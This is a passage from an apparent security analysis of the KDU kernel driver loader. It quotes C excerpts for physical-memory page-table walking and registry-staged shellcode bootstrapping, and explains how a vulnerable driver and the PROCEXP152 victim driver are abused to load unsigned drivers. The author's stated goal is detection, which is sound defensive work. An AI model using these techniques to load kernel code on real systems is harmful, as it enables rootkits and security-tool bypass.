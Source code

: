 ```
 56     for (r = 0; r < 4; r++) {
 57         
 58         shift = 39 - (r * 9);
 59         selector = (VirtualAddress >> shift) & 0x1ff;
 60         
 61         if (ReadPhysicalMemoryRoutine(DeviceHandle,
 62             table + selector * 8,
 63             &entry,
 64             sizeof(ULONG_PTR)) == 0)
 65         {   
 66             return 0;
 67         }
 68         
 69         if (PwEntryToPhyAddr(entry, &table) == 0)
 70             return 0;
 71         
 72         if ((r == 2) && ((entry & ENTRY_PAGE_SIZE_BIT) != 0)) {
 73             table &= PHY_ADDRESS_MASK_2MB_PAGES;
 74             table += VirtualAddress & VADDR_ADDRESS_MASK_2MB_PAGES;
 75             *PhysicalAddress = table;
 76             return 1;
 77         }
 78     }
 79     
 80     table += VirtualAddress & VADDR_ADDRESS_MASK_4KB_PAGES;
 81     *PhysicalAddress = table;
```

Digging deeper into the source code we actually discover that there are two drivers at play here: a victim driver and a vulnerable driver. Initially I presumed these to be the same driver, but the code appears to unpack, load and start the vulnerable driver first - this is the _provider_ - after which it calls KDUMapDriver which tries to load the victim driver.

In the case of KDU, the victim driver is always the process explorer **PROCEXP152**.sys driver, it bootstraps shellcode into the IRP\_MJ\_DEVICE\_CONTROL callback of PROCEXP152, before finally unloading it, triggering the shellcode to execute inside PROCEXP152, allowing the target driver to be loaded into kernel memory.  

Finally, let’s take a look at the core loader functionality, we want to understand the shellcode bootstrapping, and the system calls used to help us figure out what level of detection is possible. This snippet of code is where the bootstrapping happens inside KDUSetupShellCode:  

```
382         //
383         // Resolve import (ntoskrnl only) and write buffer to registry.
384         //
385         isz = FileHeader->OptionalHeader.SizeOfImage;
386
387         DataBuffer = supHeapAlloc(isz);
388         if (DataBuffer) {
389             RtlCopyMemory(DataBuffer, Image, isz);
390
391             printf_s("[+] Resolving kernel import for input driverrn");
392             supResolveKernelImport((ULONG_PTR)DataBuffer, KernelImage, KernelBase);
393             
394             lResult = RegOpenKey(HKEY_LOCAL_MACHINE, NULL, &hKey);
395             if ((lResult == ERROR_SUCCESS) && (hKey != NULL)) {
396
397                 lResult = RegSetKeyValue(hKey, NULL, TEXT("~"), REG_BINARY,                                        
398                     DataBuffer, isz);
399
400                 bSuccess = (lResult == ERROR_SUCCESS);
401
402                 RegCloseKey(hKey);
```